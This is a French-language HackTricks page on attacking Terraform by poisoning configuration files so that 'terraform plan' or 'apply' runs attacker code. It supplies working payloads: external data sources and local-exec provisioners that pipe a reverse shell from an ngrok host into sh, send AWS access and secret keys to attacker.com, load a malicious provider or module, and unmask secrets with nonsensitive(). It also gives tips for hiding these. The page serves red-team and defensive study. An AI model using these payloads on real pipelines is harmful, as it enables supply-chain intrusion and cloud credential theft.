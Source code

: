 # Sécurité Terraform

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

HashiCorp Terraform est un **outil d'infrastructure en tant que code** qui vous permet de définir des ressources **cloud et sur site** dans des fichiers de configuration lisibles par l'homme que vous pouvez versionner, réutiliser et partager. Vous pouvez ensuite utiliser un workflow cohérent pour provisionner et gérer toute votre infrastructure tout au long de son cycle de vie. Terraform peut gérer des composants de bas niveau comme le calcul, le stockage et les ressources réseau, ainsi que des composants de haut niveau comme les entrées DNS et les fonctionnalités SaaS.

### Comment fonctionne Terraform ?

Terraform crée et gère des ressources sur des plateformes cloud et d'autres services via leurs interfaces de programmation d'applications (API). Les fournisseurs permettent à Terraform de fonctionner avec pratiquement n'importe quelle plateforme ou service disposant d'une API accessible.

![](<../../.gitbook/assets/image (33).png>)

HashiCorp et la communauté Terraform ont déjà écrit **plus de 1700 fournisseurs** pour gérer des milliers de types de ressources et de services différents, et ce nombre continue de croître. Vous pouvez trouver tous les fournisseurs disponibles publiquement sur le [Registre Terraform](https://registry.terraform.io/), y compris Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog et bien d'autres.

Le workflow principal de Terraform se compose de trois étapes :

* **Écrire :** Vous définissez des ressources, qui peuvent être réparties sur plusieurs fournisseurs de cloud et services. Par exemple, vous pourriez créer une configuration pour déployer une application sur des machines virtuelles dans un réseau Virtual Private Cloud (VPC) avec des groupes de sécurité et un équilibreur de charge.
* **Planifier :** Terraform crée un plan d'exécution décrivant l'infrastructure qu'il va créer, mettre à jour ou détruire en fonction de l'infrastructure existante et de votre configuration.
* **Appliquer :** Avec approbation, Terraform effectue les opérations proposées dans l'ordre correct, en respectant les dépendances entre ressources. Par exemple, si vous mettez à jour les propriétés d'un VPC et changez le nombre de machines virtuelles dans ce VPC, Terraform recréera le VPC avant de redimensionner les machines virtuelles.

![](<../../.gitbook/assets/image (81).png>)

### Terraform Enterprise

Terraform Enterprise vous permet d'**exécuter des commandes** telles que `terraform plan` ou `terraform apply` à distance dans une **version auto-hébergée de Terraform Cloud**. Par conséquent, si vous trouvez la **clé API** pour accéder à ce serveur Terraform, vous pouvez le **compromettre**.\
Pour plus d'informations, consultez :

{% content-ref url="terraform-enterprise-security.md" %}
[terraform-enterprise-security.md](terraform-enterprise-security.md)
{% endcontent-ref %}

## Labo Terraform

Installez simplement terraform sur votre ordinateur.

Voici un [guide](https://learn.hashicorp.com/tutorials/terraform/install-cli) et ici la [meilleure façon de télécharger terraform](https://www.terraform.io/downloads).

## RCE dans Terraform

Terraform **n'expose pas de page web ou de service réseau** que nous pouvons énumérer, donc, la seule façon de compromettre terraform est de **pouvoir ajouter/modifier des fichiers de configuration terraform**.

Cependant, terraform est un composant **très sensible** à compromettre car il aura un **accès privilégié** à différents emplacements pour pouvoir fonctionner correctement.

La principale façon pour un attaquant de pouvoir compromettre le système où terraform est exécuté est de **compromettre le dépôt qui stocke les configurations terraform**, car à un moment donné, elles vont être **interprétées**.

En fait, il existe des solutions qui **exécutent automatiquement terraform plan/apply après la création d'une PR**, telles que **Atlantis** :

{% content-ref url="../atlantis-security.md" %}
[atlantis-security.md](../atlantis-security.md)
{% endcontent-ref %}

Si vous parvenez à compromettre un fichier terraform, il existe différentes manières d'effectuer un RCE lorsque quelqu'un exécute `terraform plan` ou `terraform apply`.

### Terraform plan

Terraform plan est la **commande la plus utilisée** dans terraform et les développeurs/solutions utilisant terraform l'appellent tout le temps, donc la **manière la plus simple d'obtenir un RCE** est de s'assurer que vous empoisonnez un fichier de configuration terraform qui exécutera des commandes arbitraires lors d'un `terraform plan`.

#### Utilisation d'un fournisseur externe

Terraform propose le [fournisseur `external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs) qui offre un moyen d'interfacer Terraform avec des programmes externes. Vous pouvez utiliser la source de données `external` pour exécuter du code arbitraire pendant un `plan`.
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Utilisation d'un fournisseur personnalisé

N'importe qui peut écrire un [fournisseur personnalisé](https://learn.hashicorp.com/tutorials/terraform/provider-setup) et le publier sur le [Registre Terraform](https://registry.terraform.io/). Vous pouvez également essayer de récupérer un fournisseur personnalisé à partir d'un registre privé.

Voilà comment faire :

* écrire un fournisseur personnalisé qui exécute du code malveillant (comme l'exfiltration de données d'identification ou de données clients)
* le publier sur le Registre Terraform
* ajouter le fournisseur au code Terraform dans une branche de fonctionnalité
* ouvrir une PR pour la branche de fonctionnalité
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Étant donné que le fournisseur sera intégré pendant l'`init` et exécutera du code pendant le `plan`, vous avez une exécution de code arbitraire.

Vous pouvez trouver un exemple sur [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Utilisant une référence externe

Les deux options mentionnées sont utiles mais pas très discrètes (la seconde est plus discrète mais plus complexe que la première). Vous pouvez réaliser cette attaque de manière encore plus **discrète**, en suivant ces suggestions :

* Au lieu d'ajouter le rev shell directement dans le fichier terraform, vous pouvez **charger une ressource externe** qui contient le rev shell :
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Vous pouvez trouver le code de la coquille inversée sur [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Dans la ressource externe, utilisez la fonctionnalité **ref** pour masquer **le code de la coquille inversée terraform dans une branche** à l'intérieur du dépôt, quelque chose comme : `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply sera exécuté pour appliquer tous les changements, vous pouvez également en abuser pour obtenir un RCE en injectant **un fichier Terraform malveillant avec** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
\*\*\*\*Vous devez juste vous assurer qu'un payload comme les suivants se termine dans le fichier `main.tf` :
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Suivez les **suggestions de la technique précédente** pour réaliser cette attaque de manière **plus discrète en utilisant des références externes**.

## Secrets Dumps

Vous pouvez obtenir **les valeurs secrètes utilisées par terraform** en exécutant `terraform apply` en ajoutant au fichier terraform quelque chose comme :
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Outils d'Audit

* [**tfsec**](https://github.com/aquasecurity/tfsec) : tfsec utilise l'analyse statique de votre code terraform pour détecter d'éventuelles mauvaises configurations.
* [**terascan**](https://github.com/tenable/terrascan) : Terrascan est un analyseur de code statique pour l'Infrastructure en tant que Code.

## Références

* [Sécurité Atlantis](../atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
